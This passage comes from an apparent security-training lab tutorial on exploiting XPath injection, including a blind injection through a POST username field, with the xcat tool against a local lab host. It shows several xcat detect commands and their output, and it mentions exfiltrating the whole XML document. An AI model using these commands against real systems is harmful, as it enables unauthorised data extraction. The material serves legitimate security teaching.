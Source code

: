 
The `run` command can exfiltrate the entire XML document. However, this will take so much time since the XML document is massive. Additionally, we can confirm that the `f` parameter is also injectable by changing the vulnerable parameter:

```shell
xcat detect http://172.17.0.2/index.php f q=BAR f=fullstreetname --true-string='!No Result'

function call - last string parameter - single quote
Example: /lib/something[function(?)]

Detected features:
xpath-2: False
xpath-3: False
xpath-3.1: False
normalize-space: True
substring-search: True
codepoint-search: False
environment-variables: False
document-uri: False
base-uri: False
current-datetime: False
unparsed-text: False
doc-function: False
linux: False
expath-file: False
saxon: False
oob-http: False
oob-entity-injection: False

```

* * *

## Blind XPath Injection

Now let us exploit the blind XPath exploitation lab from the previous section using `xcat`. Our injection point is the `username` POST parameter. We must set the `-m POST` and `--encode FORM` flags to tell `xcat` to send the payload in a POST parameter. Furthermore, we need to specify the vulnerable parameter and a sample value for that parameter that leads to a `positive` query outcome. In our example, we know that `admin` is a valid username, so we can use the value `admin`. We can set the `true-string` to `successfully` since that is contained in the response if our query returns data. The final command looks like this:

```shell
xcat detect http://172.17.0.2/index.php username username=admin -m POST --true-string=successfully --encode FORM

string - single quote
Example: /lib/book[name='?']

Detected features:
xpath-2: False
xpath-3: False
xpath-3.1: False
normalize-space: True
substring-search: True
codepoint-search: False
environment-variables: False
document-uri: False
base-uri: False
current-datetime: False
unparsed-text: False
doc-function: False
linux: False
expath-file: False
```